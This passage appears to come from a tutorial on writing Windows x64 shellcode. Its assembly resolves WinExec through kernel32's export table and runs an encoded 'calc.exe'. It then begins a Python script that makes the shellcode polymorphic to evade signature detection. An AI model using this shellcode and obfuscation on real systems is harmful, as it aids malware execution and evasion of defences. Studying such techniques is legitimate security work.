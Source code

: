```nasm
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

Okay, so now that we have our assembly code, we need to move on to the next step and scramble it.  This is part 1 of our polymorphic shellcode preparations.  The code below will insert benign assembly instructions throughout our assembly code where it will be completely unique each time it is compiled into shellcode.  Go ahead and run this python script below.  You'll see what I mean:

The Assembly Code Scrambler - Polymorphic prep part 1
-

> **asmobfuscator.py**

```python
import sys
import re
import random

all_reg_variants = {
    'rax': ['rax', 'eax', 'ax', 'al', 'ah'],
    'rcx': ['rcx', 'ecx', 'cx', 'cl', 'ch'],
    'rdx': ['rdx', 'edx', 'dx', 'dl', 'dh'],
    'rbx': ['rbx', 'ebx', 'bx', 'bl', 'bh'],
    'rsp': ['rsp', 'esp', 'sp', 'spl'],
    'rbp': ['rbp', 'ebp', 'bp', 'bpl'],
    'rsi': ['rsi', 'esi', 'si', 'sil'],
    'rdi': ['rdi', 'edi', 'di', 'dil'],
    'r8': ['r8', 'r8d', 'r8w', 'r8b'],
    'r9': ['r9', 'r9d', 'r9w', 'r9b'],
    'r10': ['r10', 'r10d', 'r10w', 'r10b'],
    'r11': ['r11', 'r11d', 'r11w', 'r11b'],
    'r12': ['r12', 'r12d', 'r12w', 'r12b'],
    'r13': ['r13', 'r13d', 'r13w', 'r13b'],
    'r14': ['r14', 'r14d', 'r14w', 'r14b'],
    'r15': ['r15', 'r15d', 'r15w', 'r15b'],
}
```